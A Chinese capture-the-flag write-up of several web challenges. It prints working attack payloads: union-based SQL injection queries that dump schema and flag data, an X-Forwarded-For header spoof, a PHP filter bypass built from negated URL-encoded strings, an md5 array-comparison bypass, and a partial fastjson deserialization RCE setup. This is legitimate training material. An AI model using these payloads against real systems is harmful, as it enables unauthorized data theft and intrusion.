

## 本地管理员


源码中有个base64的注释


test123，试试账号admin密码test123


ip不能访问，添加X-Forwarded-For:127.0.0.1，获得flag


>`X-Forwarded-For` 用于标识客户端（例如浏览器）的IP地址。在某些环境下，因为客户端通过了多个代理服务器来访问服务器，所以服务器不能直接获得客户端的真实IP地址，而只能获取到代理服务器的IP地址。
>
>X-Forwarded-For: <client>, <proxy1>, <proxy2>
>
>其中，*<client>* 是客户端的 IP 地址，*<proxy1>* 和 *<proxy2>* 分别是经过的每个代理服务器的 IP 地址。最左边的 IP 地址是原始客户端的 IP 地址，最右边的 IP 地址是最近的代理服务器的 IP 地址

## 成绩查询


输入1有回显，1‘回显异常，1’#回显正常，判断是sql字符型注入

order by判断列数，当```1' order by 5 # '   ```时回显异常，字段数为4

爆库```-1' union select 1,2,3,database()#```


爆表```-1' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='skctf'#```


暴字段

```-1' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='fl4g'#```


获得字段内容

```-1' union select 1,2,3,group_concat(skctf_flag) from fl4g#```


## 犯人留下了信息


两张图片


仔细看着两张图片


两张图片有不同之处，好像是盲水印

```git clone https://github.com/linyacool/blind-watermark.git```下载项目

```python2 decode.py --original 1.png --image 2.png --result 3.png```


## hate_php


过滤了字符：`f l a g . p h / ; " ' \` | [ ] _ =`

过滤了所有 PHP 内置函数名

为了绕过取两次反

将`~'highlight_file'`和`~'flag.php'`用url编码后再取反

```/?code=(~%97%96%98%97%93%96%98%97%8B%A0%99%96%93%9A)(~%99%93%9E%98%D1%8F%97%8F)```


## random


发送的数字通过get请求发送


题目叫守株待兔。将num随便取个值，然后对请求进行不断重放得到flag


## weakphp




对网址进行扫描发现存在git目录

使用githack进行还原


```php
<?php
require_once "flag.php";
if (!isset($_GET['user']) && !isset($_GET['pass'])) {
    header("Location: index.php?user=1&pass=2");
}

$user = $_GET['user'];
$pass = $_GET['pass'];
if ((md5($user) == md5($pass)) and ($user != $pass)){
    echo $flag;
} else {
    echo "nonono!";
}
?>

```

需要user和pass不相等但是md5值相等

用数组绕过，user[]=1&pass[]=2


## fastjson 1.2.24-rce

用了dnslog


javac编译得到TouchFile.class

启动一个http服务

```bash
python -m http.server 2266
```


安装java1.8版本

下载编译 marshalsec然后一直报错


